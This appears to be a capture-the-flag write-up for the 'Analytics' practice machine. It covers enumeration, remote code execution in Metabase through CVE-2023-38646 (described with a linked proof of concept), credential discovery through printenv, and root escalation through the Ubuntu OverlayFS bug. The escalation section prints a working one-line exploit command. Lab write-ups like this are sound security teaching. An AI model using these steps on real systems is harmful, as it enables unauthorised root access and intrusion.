

# Analytics
- Easy rated Box
- Simple Web Application with a Login Page

## Enumeration

    nmap -sV 10.10.11.233

Reveals port 80 and port 22 in an open state
<Insert image here>

I then tried to connect to the IP address and it redirects me to a domain analytics.htb.  
I added the domain to my /etc/hosts

    echo "10.10.11.233 analytics.htb" | sudo tee -a /etc/hosts

The first thing that caught my attention was the login page. It led me to a subdomain data.analytics.htb  
Naturally, I added that to my /etc/hosts as well.

    echo "10.10.11.233 analytical.htb data.analytical.htb" | sudo tee -a /etc/hosts

After gaining access to the login page, I noticed that it was using Metabase.  
A Google search on it led to information on the tool, being an open source tool for data visualizing and querying.  

I also Googled any potential vulnerabilities which revealed 3 critical vulnerabilities (CVSS score over 9.0):
- CVE-2023-38646
- CVE-2023-37470
- CVE-2023-32680

I decided to check out CVE-2023-38646 as it has an EPSS (Exploit Prediction Scoring System) of 54%, making it likely this box is susceptible to it.  
The vulnerability explains that there is an RCE exploit using an accessible secret setup-token to create a new database, upon creation an H2 db string  
is created with a trigger, allowing the RCE.  

More can be read <a href="https://www.rapid7.com/db/modules/exploit/linux/http/metabase_setup_token_rce/">here</a>  

I fired up Burp Suite to further confirm my findings, it seems it does provide a setup-token in the Cookie header.    

I quickly Googled if there were any potential PoCs, I found this by <a href="https://www.github.com/securezeron/CVE-2023-38646">santosh-zeron</a>:

 

## Exploit

The exploit code basically tries to grab the token through the endpoint /api/session/properties/  
then creates a payload encoded in base64 to establish a reverse TCP shell. The token is sent  
through the endpoint /api/session/validate to create a database with the payload included.  

 

 

 

 
 

Basic system enumeration was done:  

    sudo -l
    cd ~; ls -la
    printenv

The printenv command reveals user credentials and a password  

## Privilege Escalation

After logging into the metalytics account, make sure to grab the user flag.  

Again, basic account and system enumeration was done. No sudo privileges, nor interesting processes are being run.  

    sudo -l
    ps aux

netstat didn't reveal any interesting services running on the system locally.

    netstat -tulpn

I decided to look further into the system itself after running a `uname -a` where it reveals to me that it's using Ubuntu 22.0.4LTS

<a href="https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/">Reddit</a> has information on CVE-2023-32629 where there is a privilege escalation vulnerability regarding OverlayFS.

    unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
    
    setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'

Will be able to tell if you are affected if root's id is outputted.

<a href="https://github.com/briskets/CVE-2021-3493">CVE-2021-3493 PoC by briskets </a> exploits this vulnerability.  

The code will retrieve user and group IDs using getuid() and getgid() and unshares the mount and user namespace and configures the mappings for new user namespaces and to retain its privileges. 

An overlay is then mounted and copies the executable /proc/self/exe to the merged DIR /magic.

 

 
